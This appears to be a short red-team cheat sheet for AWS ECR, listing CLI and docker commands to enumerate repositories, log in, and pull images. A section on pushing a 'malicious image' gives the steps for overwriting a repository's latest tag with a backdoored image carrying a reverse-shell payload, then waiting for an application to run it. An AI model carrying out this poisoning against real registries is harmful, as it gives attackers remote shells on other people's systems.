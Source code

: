 # Elastic Container Registry (ECR)

A managed docker container registry service that allows users to store, manage, and deploy container images.

- `aws ecr describe-repositories --query 'repositories[].repositoryName' --output text --region <region>` - list all repositories
- `aws ecr describe-images --repository-name <repo> --region <region>` - list all docker images in a repo
- `docker login -u AWS -p $(aws ecr --profile <user_with_ecr_pull_privs> get-login-password --region <region>) <your-aws-account-id>.dkr.ecr.<region>.amazonaws.com` - log into ECR via docker

* Pull an image:
    - Log into ECR via docker (see above)
    - Pull the image: `docker pull <your-aws-account-id>.dkr.ecr.<region>.amazonaws.com/<repository-name>:latest`
    - Run the image: `docker run -d <your-aws-account-id>.dkr.ecr.<region>.amazonaws.com/<repository-name>:latest`

* Push a malicious image:
    - We use the `./backdoor-image` (and adjust the `./backdoor-image/rev.sh` reverse shell payload to our listener)
        - Start the corresponding listener
    - Log into ECR via docker (see above)
    - Build the docker image with the name of the `repository`: `docker build . -t <your-aws-account-id>.dkr.ecr.<region>.amazonaws.com>/<repository-name>:latest`
    - Push the image: `docker push <your-aws-account-id>.dkr.ecr.<region>.amazonaws.com>/<repository-name>:latest`
    - ... wait for an app to pull the latest image and run in ...